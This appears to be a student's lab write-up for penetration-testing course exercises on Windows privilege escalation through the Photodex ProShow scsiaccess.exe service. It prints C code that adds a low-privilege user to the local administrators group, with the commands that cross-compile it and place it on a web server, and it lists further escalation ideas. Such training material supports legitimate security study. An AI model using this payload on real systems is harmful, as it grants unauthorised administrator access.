

11.2.3 - Exercises
1. Use pyinstaller to compile a Python exploit into a standalone .exe.
2. Install Photodex ProShow Producer on your Windows host. Escalate privileges
from a standard user account.
3. Can you find additional ways of escalating permissions, outside of what is
described in the course?
1.
Successfully compiled a Python exploit into a standalone .exe.

2.
Privilege escalation completed with scsiaccess.exe

root@:~/labs/privilegeEscalation> vim useradd.c
root@:~/labs/privilegeEscalation> cp useradd.exe /var/www/html
root@:~/labs/privilegeEscalation> i686-w64-mingw32-gcc useradd.c -o useradd.exe
root@:~/labs/privilegeEscalation> file useradd.exe
useradd.exe: PE32 executable (console) Intel 80386, for MS Windows
root@:~/labs/privilegeEscalation> cp useradd.exe /var/www/html
root@:~/labs/privilegeEscalation> cat useradd.c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
int i;
i=system ("net localgroup administrators lowpriv /add");
return 0;
}
root@:~/labs/privilegeEscalation>
3.
A DLL coule be replaced. Manually trying usernames and passwords retrieved from the /etc/passwd file is a method. Files in the shared directories are a good target.